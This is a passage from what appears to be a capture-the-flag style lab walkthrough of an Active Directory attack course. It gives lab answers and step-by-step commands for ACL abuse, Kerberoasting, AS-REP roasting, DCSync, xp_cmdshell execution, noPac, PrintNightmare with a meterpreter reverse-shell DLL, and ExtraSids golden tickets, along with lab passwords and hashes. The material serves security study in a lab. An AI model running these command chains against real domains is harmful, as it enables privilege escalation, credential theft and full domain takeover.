Get-DomainObjectACL -Identity * | ? {$_.SecurityIdentifier -
eq $sid}


*note – execution time for 'damundsen' user might take some time, 15-40
minutes +- *
Now – the reason the 'GenericWrite' is the privilege that 'damundsen' over
Help Desk level 1 – is that the  'GenericWrite' is the right that allows writing to
to any non-protected attribute on an object:
'GenericWrite  - gives us the right to write to any non-protected attribute on an object. If
we have this access over a user, we could assign them an SPN and perform a
Kerberoasting attack (which relies on the target account having a weak password set).
Over a group means we could add ourselves or another security principal to a given
group. Finally, if we have this access over a computer object, we could perform a
resource-based constrained delegation attack which is outside the scope of this
module.'


*_Figure 32.1 — Lab execution and output verification (Page 32)_*


### And look for the property 'ActiveDirectoryRights'

> **Lab Question (Page 33)**: Using the skills learned in this section, enumerate the ActiveDirectoryRights that the user forend has over the user dpayne (Dagmar Payne).
>
> **Flag / Answer**: `GenericAll`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

lets run the same command from before, on 'forend':
```bash
Import-Module .\PowerView.ps1
```
$sid = Convert-NameToSid forend

Get-DomainObjectACL -Identity * | ? {$_.SecurityIdentifier -
eq $sid}
And look for the property 'ActiveDirectoryRights':


*_Figure 33.1 — Lab execution and output verification (Page 33)_*


> **Lab Question (Page 34)**: What is the ObjectAceType of the first right that the forend user has over the GPO Management group? (two words in the format Word-Word)
>
> **Flag / Answer**: `Self-Membership`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

we will run the script:
```bash
Import-Module .\PowerView.ps1
```
Step 1: Convert the user 'forend' to their SID
$forendSid = Convert-NameToSid "forend"

# Step 2: Convert the 'GPO Management' group to its
distinguished name
$gpoManagement = Get-DomainGroup -Identity "GPO Management"
| Select-Object -ExpandProperty DistinguishedName

# Step 3: Get the ACLs for the 'GPO Management' group
$acls = Get-DomainObjectACL -Identity $gpoManagement -
ResolveGUIDs

# Step 4: Filter the ACLs to find the ones that the 'forend'
user has
$forendAcls = $acls | Where-Object { $_.SecurityIdentifier -
eq $forendSid }

# Step 5: Identify the ObjectAceType of the first right
$firstRight = $forendAcls | Select-Object -First 1
$objectAceType = $firstRight.ObjectAceType

# Step 6: Output the ObjectAceType
```bash
echo $objectAceType
```
the script retrieves all the ACLs (access control list) of 'GPO Management', filter
those which apply for 'forend' user – and return from the result the
'ObjectAceType' of the first right.


*_Figure 34.1 — Lab execution and output verification (Page 34)_*


### ACL Abuse Tactics

> **Lab Question (Page 35)**: Work through the examples in this section to gain a better understanding of ACL abuse and performing these skills hands-on. Set a fake SPN for the adunn account, Kerberoast the user, and crack the hash using Hashcat. Submit the account's cleartext password as your answer.
>
> **Flag / Answer**: `SyncMaster757`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

First, we will xfreerdp login to our target Windows machine.
Then, we will use the 'ACL rights' path discovered at the last section in order to
```bash
use 'wley' account to reach sdunn.
```
Then we will run the powershell commands:
$SecPassword = ConvertTo-SecureString 'transporter@4' -
AsPlainText -Force

$Cred = New-Object
System.Management.Automation.PSCredential('INLANEFREIGHT\wle
y', $SecPassword)

$damundsenPassword = ConvertTo-SecureString
'Jonsnow<3Yigritte' -AsPlainText -Force

```bash
Import-Module .\PowerView.ps1
```

Set-DomainUserPassword -Identity damundsen -AccountPassword
$damundsenPassword -Credential $Cred -Verbose
In the first and second command we create a new PSCredential object for
'wley', with his password ('transporter@4') which we already obtained at
earlier section of the module.
In the third command we set the new password for 'damundsen' -
'Jonsnow<3Yigritte'.
The fourth command import the 'PowerView' module, and the fifth commands
is using 'wley' privileges to reset 'damundsen' password – as it is already
established that 'wley' is authorized to do so in previous sections.


*_Figure 35.1 — Lab execution and output verification (Page 35)_*


### Level 1'. We will use the commands

The next stage is to use 'damundsen' user (which we just got access to as we
reset his password) to add him to the group 'Help Desk Level 1' (we already
established in the previous 'damundsen' has genericWrite right over 'Help Desk
Level 1'. We will use the commands:
$SecPassword = ConvertTo-SecureString 'Jonsnow<3Yigritte' -
AsPlainText -Force

$Cred2 = New-Object
System.Management.Automation.PSCredential('INLANEFREIGHT\dam
undsen', $SecPassword)

Get-DomainGroupMember -Identity "Help Desk Level 1" | Select
MemberName | findstr damundsen

Add-DomainGroupMember -Identity 'Help Desk Level 1' -Members
'damundsen' -Credential $Cred2 -Verbose
In the first and second command we create new PSCredential object for
'damundsen' (just as we did for 'wley').
In the third command we request all Members of the group 'Help Desk Level 1',
and filter the result to 'damundsen' in order to confirm 'damundsen' is not
already a member of the group
And in the fourth command we add 'damundsen' to the group:

We can observe the third command in the picture did not return anyoutput –
as 'damundsen' for that moment was not a member of the group.
Now lets run the command again to confirm his addition to the group:


Now we have a user we control on 'Help Desk Level 1' group.
If we run:
Get-DomainGroup -Identity "Help Desk Level 1" | select
memberof


*_Figure 36.1 — Lab execution and output verification (Page 36)_*


*_Figure 36.2 — Lab execution and output verification (Page 36)_*


### Also – with running this

#### Technical Methodology & Exploit Execution:

We can observe that members of 'Information Technology' have 'genericWrite'
rights over 'adunn' *

The method we will use to exploit our recent gain right – is to create Set-
DomainObject to create a susceptible SPN (Service Principal name) to
Kerberoasting attack (just like we did in the Kerberoasting section of this
module) for 'adunn'.
We will use the following command:
Set-DomainObject -Credential $Cred2 -Identity adunn -SET
@{serviceprincipalname='notahacker/LEGIT'} -Verbose


*_Figure 37.1 — Lab execution and output verification (Page 37)_*


*_Figure 37.2 — Lab execution and output verification (Page 37)_*


### Windows' section

It worked. Now lets proceed with the kerberoasting attack.
We will use the same commands sequence we used for 'Kerberoasting –
Windows' section:
$user = "adunn"
$outputFile = "outputfile.txt"

$spnTicket = Get-DomainUser -Identity $user | Get-
DomainSPNTicket -Format Hashcat

$hash = $spnTicket.Hash
$hash | Out-File -FilePath $outputFile


Lets check the output file:

Here it is, now lets take the content to pwnbox, and run 'hashcat' on it as we
did in previous times (reminder – the hashcat command for kerberoasting
hashes is 13100:
```bash
hashcat -m 13100 adunn.txt rockyou.txt
```
where the hash was stored in a file called 'adunn.txt' (dont forget to remove
spaces/new lines from the hash so the file will store ONLY the hash's content!),
and 'rockyou.txt' is of course our usual wordlist which can be downloaded
here):


*_Figure 38.1 — Lab execution and output verification (Page 38)_*


*_Figure 38.2 — Lab execution and output verification (Page 38)_*


*_Figure 38.3 — Lab execution and output verification (Page 38)_*


*_Figure 38.4 — Lab execution and output verification (Page 38)_*


### DCSync

> **Lab Question (Page 39)**: Perform a DCSync attack and look for another user with the option "Store password using reversible encryption" set. Submit the username as your answer.
>
> **Flag / Answer**: `syncron`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

In this section we are provided with 2 target machines, Windows
machine called 'MS01', and Linux machine called 'Attack01'.
For this question we will need the Windows machine only so we log into the
Windows target 'MS01' machine.
We will run the powershell commands:
```bash
Import-Module .\PowerView.ps1
```

Get-ADUser -Filter {userAccountControl -band 128} -
Properties userAccountControl | Select-Object
SamAccountName, userAccountControl


We can observe 2 users – 'proxyagent' whom was used for the section
demonstration, and 'syncron' – whom is the 'another user'.
*Or alternatively we can use this command (after Module-Import) – however it
is less efficient:
Get-DomainUser -Identity * | ? {$_.useraccountcontrol -like
'*ENCRYPTED_TEXT_PWD_ALLOWED*'} |select
samaccountname,useraccountcontrol
*


*_Figure 39.1 — Lab execution and output verification (Page 39)_*


### We will run the sequence of commands

> **Lab Question (Page 40)**: What is this user's cleartext password?
>
> **Flag / Answer**: `Mycleart3xtP@ss!`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

now we will log to the target Linux target 'Attack01'machine:
We will run the sequence of commands:
touch output.txt

secretsdump.py -outputfile inlanefreight_hashes -just-dc
INLANEFREIGHT/adunn@172.16.5.5 > output.txt

```bash
cat output.txt | grep CLEARTEXT
```
in the second command – we will be requested to provide 'adunn' password
('SyncMaster757') – which we just obtained at last section.
The tool will extract plaintext password from the NTLM:

We take Syncron's password.
*Another method is to run
secretsdump.py -outputfile inlanefreight_hashes -just-dc
INLANEFREIGHT/adunn@172.16.5.5
directly, then cat the clear text passwords from 'cat
inlanefreight_hashes.ntds.cleartext':

However personally I prefer the first method as it doesn't floods the terminal. *


*_Figure 40.1 — Lab execution and output verification (Page 40)_*


*_Figure 40.2 — Lab execution and output verification (Page 40)_*


### Windows target machine

> **Lab Question (Page 41)**: Perform a DCSync attack and submit the NTLM hash for the khartsfield user as your answer.
>
> **Flag / Answer**: `4bb3b317845f0954200a6b0acc9b9f9a`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

we will use the combination of 'runas' and 'Mimikatz' on the
Windows target machine:
We will start by entering the command:
runas /netonly /user:INLANEFREIGHT\adunn powershell
to open a powershell with 'adunn' privileges:

We are requested to enter password – 'SyncMaster757'.
When entered – we have a powershell of 'adunn' privileges:

we will run the command:
C:\Tools\mimikatz\x64\mimikatz.exe
To run mimikatz:

We are presented with mimikatz CLI, in it we enter
lsadump::dcsync /domain:INLANEFREIGHT.LOCAL
/user:INLANEFREIGHT\khartsfield
that command initiates a Mimikatz module that performs a DCSync attack,
simulating the behavior of a domain controller to retrieve directory replication
data, on the target domain 'INLANEFREIGHT.LOCAL' and the target user
'khartsfield'.


*_Figure 41.1 — Lab execution and output verification (Page 41)_*


*_Figure 41.2 — Lab execution and output verification (Page 41)_*


*_Figure 41.3 — Lab execution and output verification (Page 41)_*


### and we have the result

and we have the result:

* The entire section (DCSync) works because it already established that 'adunn'
has DCSync rights.
It can be confirmed with the commands
```bash
Import-Module .\PowerView.ps1
```

$adunnsid = Convert-NameToSid adunn

Get-DomainObjectACL -ResolveGUIDs -Identity * | ?
{$_.SecurityIdentifier -eq $adunnsid} -Verbose
The result shows that 'adunn' has:
DS-Replication-Get-Changes-In-Filtered-Set:

And DS-Replication-Get-Changes:

And DS-Replication-Get-Changes-All:

Which allow replication of sensitive data to a 'simulated' Domain Controller in
order to retrieve the sensitive data there. *


*_Figure 42.1 — Lab execution and output verification (Page 42)_*


*_Figure 42.2 — Lab execution and output verification (Page 42)_*


*_Figure 42.3 — Lab execution and output verification (Page 42)_*


*_Figure 42.4 — Lab execution and output verification (Page 42)_*


### Privileged Access

> **Lab Question (Page 43)**: What other user in the domain has CanPSRemote rights to a host?
>
> **Flag / Answer**: `bdavis`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

In this section we are provided with 2 target machines, Windows
machine called 'MS01', and Linux machine called 'Attack01'.
For this question we will need the Windows machine only so we log into the
Windows target 'MS01' machine.
We will use Bloodhound.
First, we will use 'SharpHound to generate the input zip data for 'Bloodhound':
.\SharpHound.exe -c All --zipfilename ILFREIGHT
Now, the process to upload SharpHound generated zip output to Bloodhound
was already covered in detail in 'Credentialed Enumeration - from Windows'
section.
On BloodHound – run the raw query:
MATCH p1=shortestPath((u1:User)-[r1:MemberOf*1..]->(g1:Group)) MATCH
p2=(u1)-[:CanPSRemote*1..]->(c:Computer) RETURN p2
the query looks for what users can 'CanPSRemote' to what hosts:

We can observe on the Graph that the other user that can 'CanPSRemote' to a
```bash
host is 'bdavis' (in addition to 'FOREND' which serves as the module example).
```


*_Figure 43.1 — Lab execution and output verification (Page 43)_*


> **Lab Question (Page 44)**: What host can this user access via WinRM? (just the computer name)
>
> **Flag / Answer**: `ACADEMY-EA-DC01`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

observing the result graph from last question:

However this time on the other side of the edge – we can observe that BDAVIS
can WinRM to 'ACADEMY-EA-DC01'.

Question: Leverage SQLAdmin rights to authenticate to the ACADEMY-EA-DB01
```bash
host (172.16.5.150). Submit the contents of the flag at
```
C:\Users\damundsen\Desktop\flag.txt.
Answer: 1m_the_sQl_@dm1n_n0w!
Method: first of all – lets confirm the provided user by the module –
'damundsen' can SQL connect to DB01, we will use the BloodHound query:
MATCH p1=shortestPath((u1:User)-[r1:MemberOf*1..]->(g1:Group)) MATCH
p2=(u1)-[:SQLAdmin*1..]->(c:Computer) RETURN p2

We do have a possible connection.


*_Figure 44.1 — Lab execution and output verification (Page 44)_*


*_Figure 44.2 — Lab execution and output verification (Page 44)_*


### Next, we will switch to the Linux 'ATTACK-01' machine

#### Technical Methodology & Exploit Execution:

mssqlclient.py INLANEFREIGHT/DAMUNDSEN@172.16.5.150 -
windows-auth
we will be requested to enter password:

We enter the password provided for us by the module.
And we enter to the 'ACADEMY-EA-DB01', with SQL CLI:

Here we can run queries on the database.
However we can run special query to function as cmd commands:
xp_cmdshell type C:\Users\damundsen\Desktop\flag.txt
the 'xp_cmdshell' is special command for sql query that allows us to run cmd
commands, while the 'type C:\Users\damundsen\Desktop\flag.txt' is the cmd
command itself:

*Note – the 'xp_cmdshell' might be disabled on default, so the command
enable_xp_cmdshell
will enable it. *
*Note – I also tried to use 'Get-SQLQuery' for Powershell but it didn't work. *


*_Figure 45.1 — Lab execution and output verification (Page 45)_*


*_Figure 45.2 — Lab execution and output verification (Page 45)_*


*_Figure 45.3 — Lab execution and output verification (Page 45)_*


### Bleeding Edge Vulnerabilities

> **Lab Question (Page 46)**: Which two CVEs indicate NoPac.py may work? (Format: ####- #####&####-#####, no spaces)
>
> **Flag / Answer**: `2021-42278&2021-42287`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

'A great example of an emerging threat is the Sam_The_Admin vulnerability, also
called noPac or referred to as SamAccountName Spoofing released at the end of 2021. This
vulnerability encompasses two CVEs 2021-42278 and 2021-42287, allowing for intra-domain
privilege escalation from any standard domain user to Domain Admin level access in one
single command. Here is a quick breakdown of what each CVE provides regarding this
vulnerability.'

Question: Apply what was taught in this section to gain a shell on DC01. Submit
the contents of flag.txt located in the DailyTasks directory on the
Administrator's desktop.
Answer: D0ntSl@ckonN0P@c!
Method: Method 1: First, we login to the target Linux 'ATTACK-01' machine.
Then, we will use noPac:
According to the section instructions – the tool is located at '/opt/noPac':

So, we run the command:
```bash
sudo python3 /opt/noPac/noPac.py
```
INLANEFREIGHT.LOCAL/forend:Klmcargo2 -dc-ip 172.16.5.5  -dc-
```bash
host ACADEMY-EA-DC01 -shell --impersonate administrator -
```
use-ldap
what the command does is using the 2 vulnerabilities above: 'CVE-2021-42278'
- a bypass vulnerability that allows potential attackers to impersonate a domain
controller using computer account 'SAMAccountName' spoofing.
And 'CVE-2021-42287' – a bypass vulnerability that affects the Kerberos
Privilege Attribute Certificate (PAC) and allows potential attackers to
impersonate domain controllers.
The combination of the 2 vulnerabilities allows an attacker to change the
'SamAccountName' of a computer to the Domain Controller (DC) (CVE-2021-
42278) – then, the attacker requests the Kerberos ticket (TGT) under the


*_Figure 46.1 — Lab execution and output verification (Page 46)_*


### When running the command – the exploit will be executed

#### Technical Methodology & Exploit Execution:

type C:\Users\Administrator\Desktop\DailyTasks\flag.txt


*_Figure 47.1 — Lab execution and output verification (Page 47)_*


*_Figure 47.2 — Lab execution and output verification (Page 47)_*


*_Figure 47.3 — Lab execution and output verification (Page 47)_*


### For the payload – we will run the following command

#### Technical Methodology & Exploit Execution:

msfvenom -p windows/x64/meterpreter/reverse_tcp
LHOST=172.16.5.225 LPORT=8080 -f dll > backupscript.dll
when done, we will have an output file called 'backupscript.dll':

*I've already hardcoded the 'ATTACK01' IP address ('172.16.5.225') and port
8080 to the command – if required- change it *

For the smb server -  we will use the instructions in this video
When done setting smb server – we should have those:
[shared_folder]
path=/home/htb-student/shared_folder
readonly = no
guest ok =yes
inherit permission = yes
configurations in place within 'sudo nano /etc/samba/smb.conf' file (assuming
the username is 'htb-student':

Then move/copy the payload 'backupscript.dll' to the 'shared_folder':


*_Figure 48.1 — Lab execution and output verification (Page 48)_*


*_Figure 48.2 — Lab execution and output verification (Page 48)_*


*_Figure 48.3 — Lab execution and output verification (Page 48)_*


### show options to confirm

#### Technical Methodology & Exploit Execution:

```bash
sudo python3 /opt/CVE-2021-1675/CVE-2021-1675.py
```
inlanefreight.local/forend:Klmcargo2@172.16.5.5
'\\172.16.5.225\shared_folder\backupscript.dll'
*command assumes the target is 'DC01' whose IP is '172.16.5.5'. its also using
'forend:Klmcargo2' credentials *
*Also – command assumes CVE-2021-1675 is preinstalled on the target
machine. *


*_Figure 49.1 — Lab execution and output verification (Page 49)_*


*_Figure 49.2 — Lab execution and output verification (Page 49)_*


### And when we run – we open the Metasploit terminal

#### Technical Methodology & Exploit Execution:

```bash
cat C:/Users/Administrator/Desktop/DailyTasks/flag.txt
```


*_Figure 50.1 — Lab execution and output verification (Page 50)_*


*_Figure 50.2 — Lab execution and output verification (Page 50)_*


*_Figure 50.3 — Lab execution and output verification (Page 50)_*


### Miscellaneous Misconfigurations

> **Lab Question (Page 51)**: Find another user with the passwd_notreqd field set. Submit the samaccountname as your answer. The samaccountname starts with the letter "y".
>
> **Flag / Answer**: `ygroce`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

First, we will xfreerdp login to our target Windows machine
Then – we run the commands:
```bash
Import-Module .\PowerView.ps1
```

Get-DomainUser -UACFilter PASSWD_NOTREQD | Select-Object
samaccountname,useraccountcontrol
And we take the user whose name begins with 'y':

the command retrieves the account who have their 'PASSWD_NOTREQU' flag
```bash
set – meaning the password for login may not be required for those users.
```

Question: Find another user with the "Do not require Kerberos pre-
authentication setting" enabled. Perform an ASREPRoasting attack against this
user, crack the hash, and submit their cleartext password as your answer.
Answer: Pass@word
Method: we will run on powershell the command:
Get-DomainUser -PreauthNotRequired | select
samaccountname,userprincipalname,useraccountcontrol | fl
To get the users who do not need Kerberos pre-authentication for Ticket
Granting Ticket (TGT), set with the flag 'PreauthNotRequired':


*_Figure 51.1 — Lab execution and output verification (Page 51)_*


*_Figure 51.2 — Lab execution and output verification (Page 51)_*


### 'ygroce'

On the module they used the account of 'mmorgan' – so we proceed with
'ygroce':
.\Rubeus.exe asreproast /user:ygroce /nowrap /format:hashcat
The command uses the tool 'Rubeus' to exploit the 'PreauthNotRequired'
property of the user – as for 'ygroce' there is no need for Kerberos pre-
authentication – can can send a 'AS-REQ' (Authentication Service Request) in
his name, and receive 'AS-RES' (Authentication Service Response), which
containing his 'TGT' – 'Ticket Granting Ticket':

As the 'AS-REP' is made using encryption by the hash of the user's password –
we will use the command
```bash
hashcat -m 18200 ygroce.txt rockyou.txt
```
using rockyou wordlist (as the same as previous times), ygroce.txt contains the
hash, and '-m 18200' is the hashcat mode for AS-REP roasting attack:


*_Figure 52.1 — Lab execution and output verification (Page 52)_*


*_Figure 52.2 — Lab execution and output verification (Page 52)_*


### Domain Trusts Primer

> **Lab Question (Page 53)**: What is the child domain of INLANEFREIGHT.LOCAL? (format: FQDN, i.e., DEV.ACME.LOCAL)
>
> **Flag / Answer**: `LOGISTICS.INLANEFREIGHT.LOCAL`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

First, we will xfreerdp login to our target Windows machine
Then there are 2 methods. Method 1: we run the commands:
```bash
Import-Module .\PowerView.ps1
```
Get-ADTrust -Filter * | Where-Object { $_.Source -eq
"DC=INLANEFREIGHT,DC=LOCAL" }
The command gets all the trusts links to the domain 'INLANEFREIGHT.LOCAL' –
we know if there are child domains, there's where they gonna be (as there is a
least 1 directional trust between a domain and his child):

We can observe for the result – 'LOGISTICS.INLANEFREIGHT.LOCAL' – that the
domain itself is identical to our domain, only there is the sub domain of
'LOGISTICS' – and the IntraForest value is true – indicating it is a child domain.
For contrast – in the other result:

None of the conditions apply – meaning 'FREIGHTLOGISTICS.LOCAL' is NOT a
child domain


*_Figure 53.1 — Lab execution and output verification (Page 53)_*


*_Figure 53.2 — Lab execution and output verification (Page 53)_*


### And observe the results

> **Lab Question (Page 54)**: What domain does the INLANEFREIGHT.LOCAL domain have a forest transitive trust with?
>
> **Flag / Answer**: `FREIGHTLOGISTICS.LOCAL`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

```bash
Import-Module .\PowerView.ps1
```
Get-DomainTrust
And observe the results:

There are 2 results for the domain 'INLANEFREIGHT.LOCAL' in the trust link,
however only one – 'LOGISTICS.INLANEFREIGHT.LOCAL' serves as child domain.

Question: What domain does the INLANEFREIGHT.LOCAL domain have a forest
transitive trust with?
Answer: FREIGHTLOGISTICS.LOCAL
Method: for the answer in the previous question (method 1) we run
```bash
Import-Module .\PowerView.ps1
```
Get-ADTrust -Filter * | Where-Object { $_.Source -eq
"DC=INLANEFREIGHT,DC=LOCAL" }
And for the second result, among other fields we got those values:

we can observe that the 'ForestTransitive' property is true:

*Forest transitive is if the trust extends to the Childs in the forest – for example
if we have 'domainA', and child Domain of 'childA.domainA'. and we have
'domainB' and 'childB.domainB' – it means that 'childA.domainA' and
'childB.domainB' trust eachother (assuming the trust is bidirectional). *


*_Figure 54.1 — Lab execution and output verification (Page 54)_*


*_Figure 54.2 — Lab execution and output verification (Page 54)_*


*_Figure 54.3 — Lab execution and output verification (Page 54)_*


### This time we look for the 'Direction' property

> **Lab Question (Page 55)**: What direction is this trust?
>
> **Flag / Answer**: `BiDirectional`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

same command:
```bash
Import-Module .\PowerView.ps1
```
Get-ADTrust -Filter * | Where-Object { $_.Source -eq
"DC=INLANEFREIGHT,DC=LOCAL" }
This time we look for the 'Direction' property:


*_Figure 55.1 — Lab execution and output verification (Page 55)_*


### So all we have to do is to get its 'SID' with the command

> **Lab Question (Page 56)**: What is the SID of the child domain?
>
> **Flag / Answer**: `S-1-5-21-2806153819-209893948-922872689`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

First, we will xfreerdp login to our target Windows machine ('DC02')
Then we will have to determine in what domain are we in – we will use the
commands:
```bash
Import-Module .\PowerView.ps1
```

(Get-ADDomain).DistinguishedName


As we have determined in the previous section – we are now at the child
domain – 'LOGISTICS.INLANEFREIGHT.LOCAL'
So all we have to do is to get its 'SID' with the command:
Get-DomainSID
To get the 'SID' of the current domain:


Question: What is the SID of the Enterprise Admins group in the root domain?
Answer: S-1-5-21-3842939050-3880317879-2865463114-519
Method: we run the commands:
```bash
Import-Module .\PowerView.ps1
```

Get-DomainGroup -Domain INLANEFREIGHT.LOCAL -Identity
"Enterprise Admins" | select distinguishedname,objectsid


*_Figure 56.1 — Lab execution and output verification (Page 56)_*


*_Figure 56.2 — Lab execution and output verification (Page 56)_*


*_Figure 56.3 — Lab execution and output verification (Page 56)_*


### ADMINISTRATOR, and run the following command

> **Lab Question (Page 57)**: Perform the ExtraSids attack to compromise the parent domain. Submit the contents of the flag.txt file located in the c:\ExtraSids folder on the ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL domain controller in the parent domain.
>
> **Flag / Answer**: `f@ll1ng_l1k3_d0m1no3$`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

on our starting point (DC02- which as established on previous
questions – belongs to the child domain 'LOGISTICS') - open powershell on
ADMINISTRATOR, and run the following command:
C:\TOOLS\mimikatz\x64\mimikatz.exe
To open 'mimikatz'.
It will open the 'mimikatz' CLI:

Now, at this stage we need the NTLM's hash of the user 'krbtgt':
On 'mimikatz' CLI we enter the command:
lsadump::dcsync /user:LOGISTICS\krbtgt
the 'dcsync' is of course the same command we used in 'DCSync' section in
order to replicate directory data on simulated domain controller for DCSync
attack, on the target 'LOGISTICS\krbtgt' – krbtgt is the Kerberos Ticket Granting
Ticket user that acts as a KDC (Key Distribution Centre) service account for
domain controllers:

*The command works because I'm already in administrator control on DC02. *


*_Figure 57.1 — Lab execution and output verification (Page 57)_*


*_Figure 57.2 — Lab execution and output verification (Page 57)_*


### Now, lets try to list DC01 file system with the command

#### Technical Methodology & Exploit Execution:

```bash
ls \\academy-ea-dc01.inlanefreight.local\c$
```


As expected, – our access denied as we didn't exploit anything to get to DC01
yet.
So, we will use 'Rubeus' to create 'golden ticket' using the following command
and the following parameters we had obtained so far:
.\Rubeus.exe golden /rc4:<child domain's krbtgt NTLM hash>
/domain:<child domain with the obtained FQDN> /sid:<child
domain's SID>  /sids:<Enterprise Admins group SID>
/user:<our custom username> /ptt
Let's enter the values:
.\Rubeus.exe golden /rc4:9d765b482771505cbe97411065964d5f
/domain:LOGISTICS.INLANEFREIGHT.LOCAL /sid:S-1-5-21-
2806153819-209893948-922872689  /sids:S-1-5-21-3842939050-
3880317879-2865463114-519 /user:jonsnow /ptt
Those values:
child domain's krbtgt NTLM hash
The FQDN of the child domain
child domain's SID
Enterprise Admins group SID in the parents domain.
All together are sufficed to obtain TGT of the child domain, and because of the
trust that we established that exists between the child domain (in which DC02
is a member of) and the parent domain (in which DC01 is a member of) – that
TGT applies on the parent domain. And due to the transitivity nature of that
trust – the trust applies to all computers within the two domains – meaning
DC01 and DC02. Let's see the execution result of the command:


*_Figure 58.1 — Lab execution and output verification (Page 58)_*


Ticket sucsessfully imported! We can confirm addition with
klist


'jonsnow' had successfully 'received' Kerberos TGT from
'LOGISTICS.INLANEFREIGHT.LOCAL'. its suppose to work also on the parent
domain due to the afro mentioned trust.


*_Figure 59.1 — Lab execution and output verification (Page 59)_*


*_Figure 59.2 — Lab execution and output verification (Page 59)_*


*_Figure 59.3 — Lab execution and output verification (Page 59)_*


*_Figure 59.4 — Lab execution and output verification (Page 59)_*


### again

#### Technical Methodology & Exploit Execution:

```bash
cat \\academy-ea-dc01.inlanefreight.local\c
```
$/ExtraSids/flag.txt


*_Figure 60.1 — Lab execution and output verification (Page 60)_*


*_Figure 60.2 — Lab execution and output verification (Page 60)_*


### target IP is the DC02 IP

> **Lab Question (Page 61)**: Perform the ExtraSids attack to compromise the parent domain from the Linux attack host. After compromising the parent domain obtain the NTLM hash for the Domain Admin user bross. Submit this hash as your answer.
>
> **Flag / Answer**: `49a074a39dd0651f647e765c2cc794c7`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

First, we will ssh login to the target Linux machine (ATTACK01 host).
Now, from Linux 'ATTACK01' we are provided with the already compromised
Windows DC02 machine – which already established in previous section that
belongs to the 'LOGISTICS.INLANEFREIGHT.LOCAL' child domain – and from
there we will continue to the parent domain host ('DC01') and get the NTLM
hash of the parent's Domain admin 'bross'.

Now, to perform the 'ExtraSids' attack we need to obtain the same properties
as the last time: child domain's krbtgt NTLM hash, The FQDN of the child
domain, child domain's SID, Enterprise Admins group SID in the parent's
domain – however this time they will be re-obtained via Linux methods and
tools.
First – lets re-confirm DC02's domain via the Linux command:
```bash
rpcclient -U 'htb-student_adm%HTB_@cademy_stdnt_admin!' -c
```
'lsaquery' 172.16.5.240
where the user is the already provided 'htbb-student_adm' with the password
'HTB_@cademy_stdnt_admin!' which are also already provided – and the
target IP is the DC02 IP:

We get both the child Domain name and SID.
*Note – we can also use this command:
lookupsid.py logistics.inlanefreight.local/htb-
student_adm@172.16.5.240
using lookupsid.py tool and then enter the same password:


*_Figure 61.1 — Lab execution and output verification (Page 61)_*


### will use the command

#### Technical Methodology & Exploit Execution:

secretsdump.py logistics.inlanefreight.local/htb-
student_adm@172.16.5.240 -just-dc-user LOGISTICS/krbtgt
*once again the target IP and user credentials are hardcoded. *
Using Impacket secretsdump tool we will target krbtgt NTLM hash:

We are looking for the marked part in the above picture – the NTLM hash of
'krbtgt'.

The last remaining value to be obtained is the Enterprise Admins group SID in
the parent's domain – for that we will use the command:
lookupsid.py logistics.inlanefreight.local/htb-
student_adm@172.16.5.5 | grep -B12 "Enterprise Admins"


*_Figure 62.1 — Lab execution and output verification (Page 62)_*


*_Figure 62.2 — Lab execution and output verification (Page 62)_*


### machine and not the '172.16.5.240' – the DC02 machine. *

#### Technical Methodology & Exploit Execution:

ticketer.py -nthash <krbtgt NTLM hash> -domain <FQDN of
child domain>.INLANEFREIGHT.LOCAL -domain-sid <SID of child
domain> -extra-sid <SID of Enterprise Admins in parents
domain> jonsnow
place the values:
ticketer.py -nthash 9d765b482771505cbe97411065964d5f -domain
LOGISTICS.INLANEFREIGHT.LOCAL -domain-sid S-1-5-21-
2806153819-209893948-922872689 -extra-sid S-1-5-21-
3842939050-3880317879-2865463114-519 jonsnow


*_Figure 63.1 — Lab execution and output verification (Page 63)_*


*_Figure 63.2 — Lab execution and output verification (Page 63)_*


### then – we can get 'bross' NTLM hash with this command

#### Technical Methodology & Exploit Execution:

secretsdump.py jonsnow@academy-ea-dc01.inlanefreight.local -
k -no-pass -just-dc-ntlm -just-dc-user bross
using the same secretsdump tool (to get hashes from remote machines),
'jonsnow' as user within the parent domain with those flags:

The most interesting one is '-no-pass' flag – when raised – the tool will look for
'KRB5CCNAME' environment variable, which containing our Kerberos TGT
(Ticket Granting Ticket), known as golden ticket, under the name of our created
user 'jonsnow' in the parent domain:


*_Figure 64.1 — Lab execution and output verification (Page 64)_*


*_Figure 64.2 — Lab execution and output verification (Page 64)_*


*_Figure 64.3 — Lab execution and output verification (Page 64)_*


### Let's first determine our domain with the command

> **Lab Question (Page 65)**: Perform a cross-forest Kerberoast attack and obtain the TGS for the mssqlsvc user. Crack the ticket and submit the account's cleartext password as your answer.
>
> **Flag / Answer**: `1logistics`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

First, we will xfreerdp login to our target Windows machine ('MS01')
Let's first determine our domain with the command:
```bash
Import-Module .\PowerView.ps1
```

(Get-ADDomain).DistinguishedName


Our host is in the domain 'INLANEFREIGHT.LOCAL

Now, we need to obtain the plain text TGS of the user 'mssqlsvc', which is
under the domain 'FREIGHTLOGISTICS.LOCAL'.
It already had established in previous question that there is bidirectional trust
between the two domains (in 'Domain Trusts Primer' section) – so we can use
that to perform a kerberoasting attack on the user on that domain, provided
the base conditions for that attack apply on that user.
Let's run the following the command:
```bash
Import-Module .\PowerView.ps1
```

Get-DomainUser -SPN -Domain FREIGHTLOGISTICS.LOCAL | select
SamAccountName
The second commands looks for users whom have registered SPN (service
principal name) on their names. The users that will appear on the results are
susceptible for kerberoasting attack:


*_Figure 65.1 — Lab execution and output verification (Page 65)_*


### exploitation of the TGS – we will use the command

#### Technical Methodology & Exploit Execution:

Get-DomainUser -Domain FREIGHTLOGISTICS.LOCAL -Identity
